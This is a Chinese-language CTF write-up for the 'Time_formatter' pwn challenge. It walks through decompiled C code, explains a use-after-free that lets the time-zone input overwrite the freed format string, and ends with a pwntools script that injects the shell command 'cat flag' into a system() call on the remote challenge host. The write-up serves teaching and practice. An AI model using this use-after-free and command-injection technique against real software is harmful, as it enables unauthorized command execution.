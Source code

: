 

# pwn-Time_formatter-writeup

反编译：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax
  __int64 result; // rax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  while ( 1 )
  {
    puts("1) Set a time format.");
    puts("2) Set a time.");
    puts("3) Set a time zone.");
    puts("4) Print your time.");
    puts("5) Exit.");
    __printf_chk(1LL, "> ");
    v4 = stdout;
    fflush(stdout);
    switch ( ret_int() )
    {
      case 1:
        v6 = set_format();
        goto LABEL_8;
      case 2:
        v6 = set_time();
        goto LABEL_8;
      case 3:
        v6 = set_timezone();
        goto LABEL_8;
      case 4:
        v6 = print_time((__int64)v4, (__int64)"> ", v5);
LABEL_8:
        if ( !v6 )
          continue;
        return 0LL;
      case 5:
        exit();
        return result;
      default:
        continue;
    }
  }
}
```

```c
__int64 set_format()
{
  char *v0; // rbx

  v0 = ret_string_ptr();
  if ( (unsigned int)check_format(v0) )
  {
    bss_format = v0;
    puts("Format set.");
  }
  else
  {
    puts("Format contains invalid characters.");
    just_free(v0);
  }
  return 0LL;
}
```

```c
__int64 set_timezone()
{
  bss_timezone = ret_string_ptr();
  puts("Time zone set.");
  return 0LL;
}
```

```c
signed __int64 __noreturn exit()
{
  signed __int64 result; // rax
  char s; // [rsp+8h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  just_free(bss_format);
  just_free(bss_timezone);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 89 )
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  return result;
}
```

在`set_format`和`set_timezone`函数里，都调用了`ret_string_ptr`，继续看这个函数会发现里面用的是`strdup(s)`函数来存的字符串。

> strdup(s)这个函数的作用是会先用maolloc()配置与参数s字符串相同的空间大小，然后将参数s字符串的内容复制到该内存地址，然后把该地址返回。该地址最后可以利用free()来释放。

2个函数中还把开辟的堆的指针存在了.bss段中

> 在采用[段式内存管理](https://zh.wikipedia.org/w/index.php?title=段式内存管理&action=edit&redlink=1)的架构中，**BSS段**（bss segment）通常是指用来存放[程序](https://zh.wikipedia.org/wiki/计算机程序)中未[初始化](https://zh.wikipedia.org/wiki/初始化)的[全局变量](https://zh.wikipedia.org/wiki/全局变量)的一块内存区域。BSS是英文Block Started by Symbol的简称。BSS段属于[静态内存分配](https://zh.wikipedia.org/wiki/静态内存分配)。.bss section 的空间结构类似于 stack

再看到`exit()`函数里，`just_free`中只包含了`free`的操作，也就是说.bss段中的指针没有清除，存在**UAF**。而且在`set_timezone`函数里，没有对输入字符串做检查。

```c
__int64 __fastcall print_time(__int64 a1, __int64 a2, __int64 a3)
{
  char command; // [rsp+8h] [rbp-810h]
  unsigned __int64 v5; // [rsp+808h] [rbp-10h]

  v5 = __readfsqword(0x28u);
  if ( bss_format )
  {
    __snprintf_chk(
      (__int64)&command,
      0x800LL,
      1LL,
      0x800LL,
      (__int64)"/bin/date -d @%d +'%s'",
      (unsigned int)time,
      (__int64)bss_format,
      a3);
    __printf_chk(1LL, "Your formatted time is: ");
    fflush(stdout);
    if ( getenv("DEBUG") )
      __fprintf_chk(stderr, 1LL, "Running command: %s\n", &command);
    setenv("TZ", bss_timezone, 1);
    system(&command);
  }
  else
  {
    puts("You haven't specified a format!");
  }
  return 0LL;
}
```

我们的目标是，**希望baa_format能指向一个例如"cat flag"的命令然后就可以自然的被`__snprintf_chk`输出。**

**实现方法：先输入正确的format，free掉format，此时堆被释放，但是.bss段上仍然记录了指向这个被释放了的堆的地址作为format的地址，然后将我们想要用的format作为timezone输入，此时`set_timezone()`会把堆开在原来的已被释放的堆的位置，堆上放入了`'\'&cat flag\''`的字符串，此时调用`print_time()`，函数会把第一次写format时的.bss里的指针指向的堆里的东西看作print_time的模版，也就是第二次用set_timezone写进去的字符串**



```c
__snprintf_chk((__int64)&command,0x800LL,1LL,0x800LL,(__int64)"/bin/date -d @%d +'%s'",
(unsigned int)time,(__int64)bss_format,a3)函数
```

> 在command变量中添加“/bin/date -d @%d + %s”的字符串，使用system函数运行command。
>
> %d包含菜单2中输入的数字(0x602120,time)， %s包含1中输入的数字(0x602118,bss.format)。
>
> 
>
> 指定日期格式的转换：date -d @1361542596 +"%Y-%m-%d %H:%M:%S"
>
>  
>
> \\'&cat flag\\'



```python
from pwn import *
context.update(arch='amd64', log_level='debug')

p = remote('111.198.29.45', 30958)

def set_format(s):
    p.sendlineafter('>', '1')
    p.sendlineafter(':', s)
    p.recvuntil('set')

def set_zone(s):
    p.sendlineafter('>', '3')
    p.sendlineafter(':', s)
    p.recvuntil('set')

def print_time():
    p.sendlineafter('>', '4')

def _exit():
    p.sendlineafter('>', '5')
    p.sendlineafter('?', 'N')


if __name__ == '__main__':
    set_format('%p')
    _exit()
    set_zone('\'&cat flag\'')
    print_time()
    p.interactive()
```

